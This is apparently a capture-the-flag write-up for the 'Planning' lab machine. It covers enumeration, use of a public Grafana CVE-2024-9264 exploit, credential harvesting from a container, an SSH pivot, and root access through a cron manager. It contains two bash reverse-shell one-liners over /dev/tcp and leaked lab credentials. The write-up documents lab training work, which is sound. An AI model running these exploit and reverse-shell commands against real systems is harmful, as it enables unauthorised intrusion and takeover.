







# Planning – Writeup

<p align="center">
  
</p>

## Overview

-   **Machine Name:** Planning
-   **IP Address:** 10.10.11.68
-   **Difficulty:** Easy
-   **OS:** Linux
-   **Provided Credentials:** admin / 0D5oT70Fq13EvB5r

---

## Enumeration

As in a real-world scenario, the engagement began with provided credentials. The initial step was to perform a comprehensive port scan on the target machine.

```bash
sudo nmap -sV -sC -vv -T4 -oA nmap/planning 10.10.11.68
```

The nmap scan revealed two open ports:

* **Port 22 (SSH):** Running OpenSSH 9.6p1. This version is relatively recent and did not appear to have any public exploits.

* **Port 80 (HTTP):** Running nginx 1.24.0. The scan results indicated a redirect to `http://planning.htb/`.

After failing to find a login page on the main site, I performed a virtual host (vhost) fuzzing attack to discover hidden subdomains. This method is often more efficient than a full directory brute-force.

I used bffuf, a custom wrapper script for ffuf. The script is available on [GitHub](https://github.com/chisedotdev/custom-scripts/tree/main/src/bffuf).

The scan quickly identified a new subdomain, **grafana.planning.htb**, which was added to my `/etc/hosts` file to allow access.

---

## Foothold

Navigating to `http://grafana.planning.htb` led to a login page. Using the provided credentials, `admin`:`0D5oT70Fq13EvB5r`, I was able to successfully log into the Grafana instance.



From the login page, the Grafana version was visible: **v11.0.0**. A search for public exploits for this version led me to a public PoC for **CVE-2024-9264**, a post-authentication vulnerability that allows for remote code execution (RCE). The PoC for this vulnerability is available on [GitHub](https://github.com/nollium/CVE-2024-9264).

I used the Python script from the repository to first confirm command execution with a simple `curl` command to my machine.

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'curl http://10.10.X.X/' http://localhost:3000
```

The callback was successful.



Next, I modified the command to obtain a reverse shell, which successfully connected.

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "bash -i >& /dev/tcp/10.10.X.X/XXXX 0>&1"' http://grafana.planning.htb
```

A quick check of the user ID revealed the shell was running as `root`. This, along with the behavior of the exploit, suggested that the service was running inside a **Docker container**.



---

## Privilege Escalation (User)

After gaining a shell inside the Docker container, the next step was to perform additional reconnaissance to find a way to pivot to the host machine. I used `linpeas.sh` to scan for interesting information. The output revealed a username and password in the container's environment variables.

```json title="docker.root.peas"
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

These credentials, `enzo`:`RioTecRANDEntANT!`, were likely for the host machine. I attempted to SSH into the box using these credentials, and the login was successful.

```bash
ssh enzo@planning.htb
```

This granted me a shell on the host machine as the `enzo` user, and I was able to retrieve the `user.txt` flag.



---

## Privilege Escalation (Root)

To escalate privileges from `enzo` to `root` on the host, I ran `linpeas.sh` once more. The scan revealed several interesting details, including internally listening ports and a database file.

```bash title="planning.enzo.peas"
...
tcp       0      0 127.0.0.1:8000      0.0.0.0:* LISTEN      -
...
/opt/crontabs/crontab.db
...
```

The service on `localhost:8000` was not directly accessible. To interact with it, I used **local port forwarding** over SSH.

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

This forwarded the internal port to my local machine, allowing me to view a login page for what appeared to be a cron job manager.



I then examined the `crontab.db` file found by `linpeas`. This database contained a cron job for a Grafana backup, which included a cleartext password.

```json title="crontab.db"
...
zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz
...
```

The password was **P4ssw0rdS0pRi0T3c**. I tried using the username `root` with this password on the cron manager login page and was successful.



The cron manager interface allowed me to add new jobs. I created a new task to execute a reverse shell and set it to run immediately.

```bash
bash -c "bash -i >& /dev/tcp/10.10.X.X/XXXX 0>&1"
```

The command executed, and I caught a reverse shell as the `root` user, completing the machine.



---

## Flags

**user:** `d3f**************************ef5`

**root:** `000**************************6cd`

---

## Summary

The **Planning** machine required a multi-stage approach, leveraging a series of discoveries to chain together a successful exploit path. The attack chain was as follows:

1.  Initial enumeration and Vhost fuzzing led to the discovery of a **Grafana** instance.
2.  A **post-authentication RCE vulnerability (CVE-2024-9264)** was exploited to gain a shell as `root` inside a **Docker container**.
3.  Credentials found in the container's environment variables were used to **pivot to the host machine** via SSH, gaining a shell as the `enzo` user.
4.  Further reconnaissance on the host machine revealed a misconfigured **internal cron manager**, with credentials stored in a cleartext database.
5.  A new cron job was added via the manager's web interface, executing a reverse shell and granting **root access to the host machine**.